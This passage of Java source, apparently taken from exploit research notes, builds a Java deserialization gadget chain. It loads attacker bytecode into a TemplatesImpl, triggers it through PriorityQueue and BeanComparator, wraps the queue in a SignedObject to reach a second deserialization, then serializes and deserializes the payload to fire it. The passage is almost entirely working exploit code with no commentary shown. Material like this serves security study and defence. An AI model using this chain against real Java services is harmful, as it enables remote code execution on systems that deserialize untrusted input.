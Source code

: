 ```java
        byte[] code = Files.readAllBytes(Paths.get("D:/gaoren.class"));  
        setValue(tem, "_bytecodes", new byte[][]{code});  
        setValue(tem, "_tfactory", new TransformerFactoryImpl());  
        setValue(tem, "_name", "gaoren");  
        setValue(tem, "_class", null);  
  
        PriorityQueue queue1 = new PriorityQueue(1);  
  
        BeanComparator comparator2 = new BeanComparator("outputProperties");  
        queue1.add(1);  
        queue1.add(1);  
  
        Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");  
        field.setAccessible(true);  
        field.set(queue1,comparator2);  
  
        Object[] queue_array = new Object[]{tem,1};  
        Field queue_field = Class.forName("java.util.PriorityQueue").getDeclaredField("queue");  
        queue_field.setAccessible(true);  
        queue_field.set(queue1,queue_array);  
  
        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");  
        kpg.initialize(1024);  
        KeyPair kp = kpg.generateKeyPair();  
        SignedObject signedObject = new SignedObject(queue1, kp.getPrivate(), Signature.getInstance("DSA"));  
  
        PriorityQueue queue = new PriorityQueue(1);  
  
        BeanComparator comparator = new BeanComparator("object");  
  
        queue.add(2);  
        queue.add(2);  
  
        Field field2 = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");  
        field2.setAccessible(true);  
        field2.set(queue,comparator);  
  
        Object[] queue_array2 = new Object[]{signedObject,1};  
        Field queue_field2 = Class.forName("java.util.PriorityQueue").getDeclaredField("queue");  
        queue_field2.setAccessible(true);  
        queue_field2.set(queue,queue_array2);  
  
        serilize(queue);  
        deserilize("ser.bin");  
    }  
    public static void serilize(Object obj)throws IOException {  
        ObjectOutputStream out=new ObjectOutputStream(new FileOutputStream("ser.bin"));  
        out.writeObject(obj);  
    }  
    public static Object deserilize(String Filename)throws IOException,ClassNotFoundException{  
        ObjectInputStream in=new ObjectInputStream(new FileInputStream(Filename));  
        Object obj=in.readObject();  
        return obj;  
  
    }  
    public static void setValue(Object obj,String fieldName,Object value) throws Exception {  
        Field field = obj.getClass().getDeclaredField(fieldName);  
        field.setAccessible(true);  
        field.set(obj,value);  
    }  
}
```